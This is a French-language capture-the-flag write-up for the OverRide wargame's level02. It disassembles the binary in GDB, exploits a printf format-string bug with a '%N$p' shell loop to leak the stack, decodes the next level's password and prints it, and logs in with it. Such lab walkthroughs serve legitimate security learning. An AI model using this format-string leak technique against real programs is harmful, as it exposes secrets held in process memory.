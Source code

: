 Testons l'executale !

"
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: a
--[ Password: a
*****************************************
a does not have access!
"

le programme nous demande un "Username" et un "password"

GDB!

"
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400814 <+0>:	push   %rbp
   0x0000000000400815 <+1>:	mov    %rsp,%rbp
   0x0000000000400818 <+4>:	sub    $0x120,%rsp
   0x000000000040081f <+11>:	mov    %edi,-0x114(%rbp)
   0x0000000000400825 <+17>:	mov    %rsi,-0x120(%rbp)
   0x000000000040082c <+24>:	lea    -0x70(%rbp),%rdx
   0x0000000000400830 <+28>:	mov    $0x0,%eax
   0x0000000000400835 <+33>:	mov    $0xc,%ecx
   0x000000000040083a <+38>:	mov    %rdx,%rdi
   0x000000000040083d <+41>:	rep stos %rax,%es:(%rdi)
   0x0000000000400840 <+44>:	mov    %rdi,%rdx
   0x0000000000400843 <+47>:	mov    %eax,(%rdx)
   0x0000000000400845 <+49>:	add    $0x4,%rdx
   0x0000000000400849 <+53>:	lea    -0xa0(%rbp),%rdx
   0x0000000000400850 <+60>:	mov    $0x0,%eax
   0x0000000000400855 <+65>:	mov    $0x5,%ecx
   0x000000000040085a <+70>:	mov    %rdx,%rdi
   0x000000000040085d <+73>:	rep stos %rax,%es:(%rdi)
   0x0000000000400860 <+76>:	mov    %rdi,%rdx
---Type <return> to continue, or q <return> to quit---
   0x0000000000400863 <+79>:	mov    %al,(%rdx)
   0x0000000000400865 <+81>:	add    $0x1,%rdx
   0x0000000000400869 <+85>:	lea    -0x110(%rbp),%rdx
   0x0000000000400870 <+92>:	mov    $0x0,%eax
   0x0000000000400875 <+97>:	mov    $0xc,%ecx
   0x000000000040087a <+102>:	mov    %rdx,%rdi
   0x000000000040087d <+105>:	rep stos %rax,%es:(%rdi)
   0x0000000000400880 <+108>:	mov    %rdi,%rdx
   0x0000000000400883 <+111>:	mov    %eax,(%rdx)
   0x0000000000400885 <+113>:	add    $0x4,%rdx
   0x0000000000400889 <+117>:	movq   $0x0,-0x8(%rbp)
   0x0000000000400891 <+125>:	movl   $0x0,-0xc(%rbp)
   0x0000000000400898 <+132>:	mov    $0x400bb0,%edx
   0x000000000040089d <+137>:	mov    $0x400bb2,%eax
   0x00000000004008a2 <+142>:	mov    %rdx,%rsi
   0x00000000004008a5 <+145>:	mov    %rax,%rdi
   0x00000000004008a8 <+148>:	callq  0x400700 <fopen@plt>
   0x00000000004008ad <+153>:	mov    %rax,-0x8(%rbp)
   0x00000000004008b1 <+157>:	cmpq   $0x0,-0x8(%rbp)
   0x00000000004008b6 <+162>:	jne    0x4008e6 <main+210>
---Type <return> to continue, or q <return> to quit---
   0x00000000004008b8 <+164>:	mov    0x200991(%rip),%rax        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x00000000004008bf <+171>:	mov    %rax,%rdx
   0x00000000004008c2 <+174>:	mov    $0x400bd0,%eax
   0x00000000004008c7 <+179>:	mov    %rdx,%rcx
   0x00000000004008ca <+182>:	mov    $0x24,%edx
   0x00000000004008cf <+187>:	mov    $0x1,%esi
   0x00000000004008d4 <+192>:	mov    %rax,%rdi
   0x00000000004008d7 <+195>:	callq  0x400720 <fwrite@plt>
   0x00000000004008dc <+200>:	mov    $0x1,%edi
   0x00000000004008e1 <+205>:	callq  0x400710 <exit@plt>
   0x00000000004008e6 <+210>:	lea    -0xa0(%rbp),%rax
   0x00000000004008ed <+217>:	mov    -0x8(%rbp),%rdx
   0x00000000004008f1 <+221>:	mov    %rdx,%rcx
   0x00000000004008f4 <+224>:	mov    $0x29,%edx
   0x00000000004008f9 <+229>:	mov    $0x1,%esi
   0x00000000004008fe <+234>:	mov    %rax,%rdi
   0x0000000000400901 <+237>:	callq  0x400690 <fread@plt>
   0x0000000000400906 <+242>:	mov    %eax,-0xc(%rbp)
   0x0000000000400909 <+245>:	lea    -0xa0(%rbp),%rax
   0x0000000000400910 <+252>:	mov    $0x400bf5,%esi
---Type <return> to continue, or q <return> to quit---
   0x0000000000400915 <+257>:	mov    %rax,%rdi
   0x0000000000400918 <+260>:	callq  0x4006d0 <strcspn@plt>
   0x000000000040091d <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
   0x0000000000400925 <+273>:	cmpl   $0x29,-0xc(%rbp)
   0x0000000000400929 <+277>:	je     0x40097d <main+361>
   0x000000000040092b <+279>:	mov    0x20091e(%rip),%rax        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400932 <+286>:	mov    %rax,%rdx
   0x0000000000400935 <+289>:	mov    $0x400bf8,%eax
   0x000000000040093a <+294>:	mov    %rdx,%rcx
   0x000000000040093d <+297>:	mov    $0x24,%edx
   0x0000000000400942 <+302>:	mov    $0x1,%esi
   0x0000000000400947 <+307>:	mov    %rax,%rdi
   0x000000000040094a <+310>:	callq  0x400720 <fwrite@plt>
   0x000000000040094f <+315>:	mov    0x2008fa(%rip),%rax        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400956 <+322>:	mov    %rax,%rdx
   0x0000000000400959 <+325>:	mov    $0x400bf8,%eax
   0x000000000040095e <+330>:	mov    %rdx,%rcx
   0x0000000000400961 <+333>:	mov    $0x24,%edx
   0x0000000000400966 <+338>:	mov    $0x1,%esi
   0x000000000040096b <+343>:	mov    %rax,%rdi
---Type <return> to continue, or q <return> to quit---
   0x000000000040096e <+346>:	callq  0x400720 <fwrite@plt>
   0x0000000000400973 <+351>:	mov    $0x1,%edi
   0x0000000000400978 <+356>:	callq  0x400710 <exit@plt>
   0x000000000040097d <+361>:	mov    -0x8(%rbp),%rax
   0x0000000000400981 <+365>:	mov    %rax,%rdi
   0x0000000000400984 <+368>:	callq  0x4006a0 <fclose@plt>
   0x0000000000400989 <+373>:	mov    $0x400c20,%edi
   0x000000000040098e <+378>:	callq  0x400680 <puts@plt>
   0x0000000000400993 <+383>:	mov    $0x400c50,%edi
   0x0000000000400998 <+388>:	callq  0x400680 <puts@plt>
   0x000000000040099d <+393>:	mov    $0x400c80,%edi
   0x00000000004009a2 <+398>:	callq  0x400680 <puts@plt>
   0x00000000004009a7 <+403>:	mov    $0x400cb0,%edi
   0x00000000004009ac <+408>:	callq  0x400680 <puts@plt>
   0x00000000004009b1 <+413>:	mov    $0x400cd9,%eax
   0x00000000004009b6 <+418>:	mov    %rax,%rdi
   0x00000000004009b9 <+421>:	mov    $0x0,%eax
   0x00000000004009be <+426>:	callq  0x4006c0 <printf@plt>
   0x00000000004009c3 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x00000000004009ca <+438>:	mov    %rax,%rdx
---Type <return> to continue, or q <return> to quit---
   0x00000000004009cd <+441>:	lea    -0x70(%rbp),%rax
   0x00000000004009d1 <+445>:	mov    $0x64,%esi
   0x00000000004009d6 <+450>:	mov    %rax,%rdi
   0x00000000004009d9 <+453>:	callq  0x4006f0 <fgets@plt>
   0x00000000004009de <+458>:	lea    -0x70(%rbp),%rax
   0x00000000004009e2 <+462>:	mov    $0x400bf5,%esi
   0x00000000004009e7 <+467>:	mov    %rax,%rdi
   0x00000000004009ea <+470>:	callq  0x4006d0 <strcspn@plt>
   0x00000000004009ef <+475>:	movb   $0x0,-0x70(%rbp,%rax,1)
   0x00000000004009f4 <+480>:	mov    $0x400ce8,%eax
   0x00000000004009f9 <+485>:	mov    %rax,%rdi
   0x00000000004009fc <+488>:	mov    $0x0,%eax
   0x0000000000400a01 <+493>:	callq  0x4006c0 <printf@plt>
   0x0000000000400a06 <+498>:	mov    0x20083b(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x0000000000400a0d <+505>:	mov    %rax,%rdx
   0x0000000000400a10 <+508>:	lea    -0x110(%rbp),%rax
   0x0000000000400a17 <+515>:	mov    $0x64,%esi
   0x0000000000400a1c <+520>:	mov    %rax,%rdi
   0x0000000000400a1f <+523>:	callq  0x4006f0 <fgets@plt>
   0x0000000000400a24 <+528>:	lea    -0x110(%rbp),%rax
---Type <return> to continue, or q <return> to quit---
   0x0000000000400a2b <+535>:	mov    $0x400bf5,%esi
   0x0000000000400a30 <+540>:	mov    %rax,%rdi
   0x0000000000400a33 <+543>:	callq  0x4006d0 <strcspn@plt>
   0x0000000000400a38 <+548>:	movb   $0x0,-0x110(%rbp,%rax,1)
   0x0000000000400a40 <+556>:	mov    $0x400cf8,%edi
   0x0000000000400a45 <+561>:	callq  0x400680 <puts@plt>
   0x0000000000400a4a <+566>:	lea    -0x110(%rbp),%rcx
   0x0000000000400a51 <+573>:	lea    -0xa0(%rbp),%rax
   0x0000000000400a58 <+580>:	mov    $0x29,%edx
   0x0000000000400a5d <+585>:	mov    %rcx,%rsi
   0x0000000000400a60 <+588>:	mov    %rax,%rdi
   0x0000000000400a63 <+591>:	callq  0x400670 <strncmp@plt>
   0x0000000000400a68 <+596>:	test   %eax,%eax
   0x0000000000400a6a <+598>:	jne    0x400a96 <main+642>
   0x0000000000400a6c <+600>:	mov    $0x400d22,%eax
   0x0000000000400a71 <+605>:	lea    -0x70(%rbp),%rdx
   0x0000000000400a75 <+609>:	mov    %rdx,%rsi
   0x0000000000400a78 <+612>:	mov    %rax,%rdi
   0x0000000000400a7b <+615>:	mov    $0x0,%eax
   0x0000000000400a80 <+620>:	callq  0x4006c0 <printf@plt>
---Type <return> to continue, or q <return> to quit---
   0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
   0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
   0x0000000000400a8f <+635>:	mov    $0x0,%eax
   0x0000000000400a94 <+640>:	leaveq
   0x0000000000400a95 <+641>:	retq
   0x0000000000400a96 <+642>:	lea    -0x70(%rbp),%rax
   0x0000000000400a9a <+646>:	mov    %rax,%rdi
   0x0000000000400a9d <+649>:	mov    $0x0,%eax
   0x0000000000400aa2 <+654>:	callq  0x4006c0 <printf@plt>
   0x0000000000400aa7 <+659>:	mov    $0x400d3a,%edi
   0x0000000000400aac <+664>:	callq  0x400680 <puts@plt>
   0x0000000000400ab1 <+669>:	mov    $0x1,%edi
   0x0000000000400ab6 <+674>:	callq  0x400710 <exit@plt>
End of assembler dump.
"

Enormement d'instruction cette fois ! Nous remarquons beaucoup de chose en lisant tout ca.

Nous pouvons voir un fopen et un fread (fread est une fonction qui lit l'entrée de la mémoire tampon d'un fichier) dans le fichier password. la variable printf est appelle.

"
0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]
0x0000000000400a9a <+646>:	mov    rdi,rax
0x0000000000400a9d <+649>:	mov    eax,0x0
0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>
"

maintenant nous allons lire la stack.

"
level02@OverRide:~$ for(( i = 1; i < 42; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done
1 - 0x7fffffffe4e0 does not have access!
2 - (nil) does not have access!
3 - (nil) does not have access!
4 - 0x2a2a2a2a2a2a2a2a does not have access!
5 - 0x2a2a2a2a2a2a2a2a does not have access!
6 - 0x7fffffffe6d8 does not have access!
7 - 0x1f7ff9a08 does not have access!
8 - (nil) does not have access!
9 - (nil) does not have access!
10 - (nil) does not have access!
11 - (nil) does not have access!
12 - (nil) does not have access!
13 - (nil) does not have access!
14 - (nil) does not have access!
15 - (nil) does not have access!
16 - (nil) does not have access!
17 - (nil) does not have access!
18 - (nil) does not have access!
19 - (nil) does not have access!
20 - 0x100000000 does not have access!
21 - (nil) does not have access!
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
27 - (nil) does not have access!
28 - 0x383225202d203832 does not have access!
29 - 0x7024 does not have access!
30 - (nil) does not have access!
31 - (nil) does not have access!
32 - (nil) does not have access!
33 - (nil) does not have access!
34 - (nil) does not have access!
35 - (nil) does not have access!
36 - (nil) does not have access!
37 - (nil) does not have access!
38 - (nil) does not have access!
39 - (nil) does not have access!
40 - 0x2900000000 does not have access!
41 - 0x602010 does not have access!
"

A la position 22 il a l'air de se passer des choses. on le convertit en hexadecimal.

"
$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
"

Ca ressemble apres reflexion a un flag : Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

Essayons

"
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
"

ca marche !

